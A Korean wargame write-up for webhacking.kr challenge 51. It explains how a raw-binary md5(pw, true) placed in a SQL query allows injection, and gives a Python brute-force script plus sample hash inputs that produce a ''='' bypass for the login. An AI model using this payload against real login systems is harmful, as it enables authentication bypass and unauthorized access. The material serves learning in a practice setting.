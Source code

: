 ```yaml
---
title: "[webhacking.kr] 51번 문제 풀이[md5 true 취약점]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - md5 true
toc: true
toc_sticky: true
toc_label: "51번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 51번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152945460-7760f7e5-ba71-46d1-9157-efb072c9ed80.png)


  ```php
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
  ```

# md5 함수
  이번 문제를 풀기 위해서는 md5 함수를 사용할 때, True 옵션에 대해서 알아야 합니다.

  md5 함수는 주어진 문자열에 대한 md5 해시 값을 구해주는 함수 입니다.
  ```php
md5(string $string, bool $binary = false): string
# $string : 해시를 할 문자열
# $binary : true로 설정하면, md5를 raw binary로 출력
  ```

  다음 처럼 php 코드를 확인해 보면 쉽게 이해하실 수 있습니다. md5함수를 그냥 사용하면 16진수로 해시값을 출력해주고, true 옵션을 주면 raw binary로 출력해 줍니다.

  ```php
<?php
    $pw = "password";
    echo "md5 default : ".md5($pw)."<br>";
    echo "md5 True : ".md5($pw,true)."<br>";   
?>
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152946523-dd707402-9549-4bbb-9291-9a7210157cfc.png)
  
# md5 true 취약점
  md5 true 취약점은 binary로 반환된 문자열이 db의 쿼리문으로 그래도 들어갈 때 발생합니다.

  해당 문제를 보면 pw를 md5 true로 해시된 바이너리 값을 그대로 DB의 쿼리로 사용함을 알 수 있습니다.

  ```php
$input_pw = md5($_POST['pw'],true);
$result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
  ```

  이때 md5로 해시된 바이너리 값에 ```'``` 나 다른 문자가 나오도록 한다면 악의적으로 쿼리문을 조작할 수 있는 것입니다.

  더 쉽게 이해를 하기 위해 예시를 보여드리겠습니다. chall51 테이블에는 다음과 같은 데이터를 넣습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152947664-81c7f7fd-6c87-425e-a34d-1aba434bfe5e.png)

  해당 취약점을 이용하기 위해서는 다음의 쿼리문 결과를 이해하셔야 합니다.

## 'or'숫자 
  ![image](https://user-images.githubusercontent.com/33647663/152948701-d8e679fc-1c42-46dc-b867-7eb20d1a085c.png)

  위의 쿼리문은 or 앞에는 거짓이 되고, 뒷부분은 True이기 때문에 전체가 True가 됩니다. **mysql에서는 참거짓을 판단할 때, 문자열이 오면 맨 첫 자리만을 보고 검사를 합니다. 이 때, 맨 첫자리가 1-9이면 True를, 0과 다른 문자들은 모두 False를 반환합니다.**

  이때 뒤의 문자열의 첫 숫자는 1-9여야만 합니다. 다음처럼 0이나, 다른 문자가 오면 위의 방법이 되지 않음을 주의해야 합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152949342-43b28a75-ab25-441e-be84-58d225f362d1.png)

## '='문자
  ![image](https://user-images.githubusercontent.com/33647663/152950467-c263d292-e29a-4f7d-b455-26103b938711.png)

  이 부분도 뒷부분에서  'rmaodsa'는 맨 앞부분이 숫자가 아니고 문자이기 때문에 참거짓 판단에서 FALSE가 됩니다. 따라서 뒷부분이 만약 숫자로 시작한다면 다음과 같이 공격이 되지 않음을 유의해야 합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152955430-841dc1da-212c-43fc-a1f7-25932875ddb6.png)

  위의 개념을 이용하여 md5 true를 사용할 때 그 결과 값에서 **'or'숫자** 혹은 **'='문자** 가 나오도록 해시값을 준다면 문제를 풀 수 있습니다.
  
  추가로 실제 공격에서 시도할 때는 'or'숫자는 찾기가 어렵습니다. 하나의 글자씩 보면 ' o r ' 숫자 로 5자리가 맞는 경우를 찾아야 하는데 이는 쉽지 않습니다. 반면 '='는 세자리만 찾으면 되기 때문에(아스키 코드에서 보면 1-9 를 제외한 모든 경우가 문자이기 때문에 마지막에 오는 문자는 신경안써도 되는 수준) 훨씬 난이도가 낮습니다. 따라서 실제 공격에 사용할 때는 무조건 '=' 문자를 이용합니다.
  {: .notice--info}
 

# 문제 풀이
  파이썬을 통해서 해시 결과에 '='를 포함하는 숫자들을 찾아봅니다.

  ```python
from hashlib import md5
from tqdm import tqdm
from colorama import Fore

# '=' -> 0x27 0x3d 0x27
for i in range(1000000000):
    raw_md5 = md5(str(i).encode("ascii")).digest()
    if(b'\x27\x3d\x27' in raw_md5):
        print(Fore.GREEN + '[+] ' + str(i) +' : ' + str(raw_md5))
        
  ```

파이썬 코드 실행 결과
```sql
[+] 1839431 : b"\xc37\x90\xa5\xaf\xc4\xb1A@J\xbe'='\xaa\xa9"
[+] 2584670 : b"\xdf\x8b\x12'='N/\xe6*{\xec\x18\x16\x931"
[+] 2632003 : b"\x1c\x12(\xcc'='6\xfaQE\x84\x0e\x96\xed\x99"
[+] 2998869 : b"\xfe\xb2'=':\xe9T\xea\xd6,p\xa7\x80\xf1\xe1"
[+] 4939073 : b"u}t'Q'='\x14\xd9\xe2\x8e\xec.\xd8\x8a"
[+] 5263117 : b"e'='\x80\xb0\xb4\xf6\x12\xd6M@KD\x06\xcb"
[+] 5273607 : b"\xb7\x94a\x9f\x10d\xbe\xc6\x87\x04\xf4;\xac'='"

 ..... 중략

```

위의 숫자들 중에서 2632003 인 경우에는 '='6 으로 바로 다음에 숫자가 나왔기 때문에 풀리지 않습니다. 나머지 숫자중에 하나를 골라서 다음과 같이 문제를 풀어줍니다.

![image](https://user-images.githubusercontent.com/33647663/152953746-c94987fc-521b-4138-bf9b-3fed849f4d9b.png)

![image](https://user-images.githubusercontent.com/33647663/152953827-4f1144f7-3385-46cc-a0ca-974a32250aa9.png)